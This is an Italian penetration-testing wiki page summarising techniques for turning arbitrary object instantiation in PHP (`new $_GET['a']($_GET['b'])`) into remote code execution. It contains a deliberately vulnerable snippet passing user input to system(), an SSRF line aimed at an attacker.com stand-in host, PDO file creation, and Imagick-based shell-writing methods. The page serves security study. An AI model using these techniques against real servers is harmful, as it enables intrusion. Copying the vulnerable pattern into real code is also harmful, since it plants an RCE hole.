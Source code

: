 # PHP - RCE abusando della creazione di oggetti: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Questo è fondamentalmente un riassunto di [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduzione

La creazione di nuovi oggetti arbitrari, come `new $_GET["a"]($_GET["a"])`, può portare a Remote Code Execution (RCE), come dettagliato in un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Questo documento evidenzia varie strategie per ottenere RCE.

## RCE tramite Classi Personalizzate o Autoloading

La sintassi `new $a($b)` viene utilizzata per istanziare un oggetto dove **`$a`** rappresenta il nome della classe e **`$b`** è il primo argomento passato al costruttore. Queste variabili possono provenire da input dell'utente come GET/POST, dove possono essere stringhe o array, o da JSON, dove potrebbero presentarsi come altri tipi.

Considera il frammento di codice qui sotto:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In questo caso, impostare `$a` su `App` o `App2` e `$b` su un comando di sistema (ad es., `uname -a`) porta all'esecuzione di quel comando.

**Le funzioni di autoloading** possono essere sfruttate se tali classi non sono direttamente accessibili. Queste funzioni caricano automaticamente le classi dai file quando necessario e sono definite utilizzando `spl_autoload_register` o `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Il comportamento del caricamento automatico varia con le versioni di PHP, offrendo diverse possibilità di RCE.

## RCE tramite Classi Incorporate

In assenza di classi personalizzate o caricatori automatici, **le classi PHP incorporate** possono essere sufficienti per RCE. Il numero di queste classi varia tra 100 e 200, a seconda della versione di PHP e delle estensioni. Possono essere elencate utilizzando `get_declared_classes()`.

I costruttori di interesse possono essere identificati tramite l'API di riflessione, come mostrato nel seguente esempio e nel link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE tramite metodi specifici include:**

### **SSRF + Deserializzazione Phar**

La classe `SplFileObject` consente SSRF tramite il suo costruttore, permettendo connessioni a qualsiasi URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF può portare ad attacchi di deserializzazione nelle versioni di PHP precedenti alla 8.0 utilizzando il protocollo Phar.

### **Sfruttare i PDO**

Il costruttore della classe PDO consente connessioni a database tramite stringhe DSN, potenzialmente abilitando la creazione di file o altre interazioni:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Le versioni di PHP fino alla 5.3.22 e 5.4.12 erano suscettibili ad attacchi XXE attraverso i costruttori `SoapClient` e `SimpleXMLElement`, a seconda della versione di libxml2.

## RCE tramite estensione Imagick

Nell'analisi delle **dipendenze di un progetto**, è stato scoperto che **Imagick** poteva essere sfruttato per **l'esecuzione di comandi** istanziando nuovi oggetti. Questo presenta un'opportunità per sfruttare vulnerabilità.

### Parser VID

È stata identificata la capacità del parser VID di scrivere contenuti in qualsiasi percorso specificato nel filesystem. Questo potrebbe portare al posizionamento di una shell PHP in una directory accessibile via web, ottenendo l'Esecuzione Remota di Codice (RCE).

#### Parser VID + Caricamento File

Si nota che PHP memorizza temporaneamente i file caricati in `/tmp/phpXXXXXX`. Il parser VID in Imagick, utilizzando il protocollo **msl**, può gestire caratteri jolly nei percorsi dei file, facilitando il trasferimento del file temporaneo in una posizione scelta. Questo metodo offre un ulteriore approccio per ottenere la scrittura arbitraria di file all'interno del filesystem.

### Crash PHP + Brute Force

Un metodo descritto nel [**writeup originale**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) prevede il caricamento di file che provocano un crash del server prima della cancellazione. Forzando il nome del file temporaneo, diventa possibile per Imagick eseguire codice PHP arbitrario. Tuttavia, questa tecnica è stata trovata efficace solo in una versione obsoleta di ImageMagick.

## Riferimenti

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
